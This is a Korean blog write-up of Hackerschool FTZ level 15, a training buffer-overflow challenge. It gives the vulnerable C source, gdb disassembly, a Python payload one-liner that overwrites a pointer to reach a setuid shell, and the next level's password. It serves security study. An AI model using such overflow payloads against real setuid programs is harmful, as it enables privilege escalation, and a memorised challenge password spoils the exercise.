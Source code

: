 ```yaml
---
date: '2022-10-04'
before : '2022-10-05'
after : '2022-10-06'
title: '시스템 해킹(11) : 해커스쿨 FTZ 레벨 15'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

BOF문제인데, int *check 포인터가 0xdeadbeef를 가리킨다면 쉘 코드를 실행시켜주는 식이다. 소스코드를 보면서 시작하자.


### 1. Level 15

```
#include <stdio.h> 
main(){
     int crap;  
     int *check; 
      char buf[20];  
     fgets(buf,45,stdin);  
     if (*check==0xdeadbeef)   
        {     setreuid(3096,3096);    
              system("/bin/sh");  
              }
    }
```

대충 요런식이다. gdb를 이용해서  disassemble 해보자.
```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d4
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   mov    eax,DWORD PTR [ebp-16] // 16 -12 pointer
0x080483e2 <main+42>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080483e8 <main+48>:   jne    0x804840f <main+87>
0x080483ea <main+50>:   sub    esp,0x8
0x080483ed <main+53>:   push   0xc18
0x080483f2 <main+58>:   push   0xc18
0x080483f7 <main+63>:   call   0x80482f8 <setreuid>
0x080483fc <main+68>:   add    esp,0x10
0x080483ff <main+71>:   sub    esp,0xc
```
ebp-56 위치에 buf 배열이 마무리되고, ebp-16지점에 


단, 우리는 deadbeef의 메모리 주소값을 알아내어야 한다. 이를 위해선 gdb에서 x/20x를 해보면 된다. 노가다를 뛰면서 일일히 값을 입력하다보면 딱 0xdeadbeef가 나오는 주소를 발견하는데,

```
0x80484b2
```
라는걸 확인할 수 있다. 그럼 단순히 저 값을 bof 공격을 통해 check 포인터에 넣어주면 된다.
```
 (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```
단순하다고 할 수 있는 문제였던 것 같다.

비밀번호 : about to cause mass

---
## Source

- 해커스쿨 FTZ
- Me!
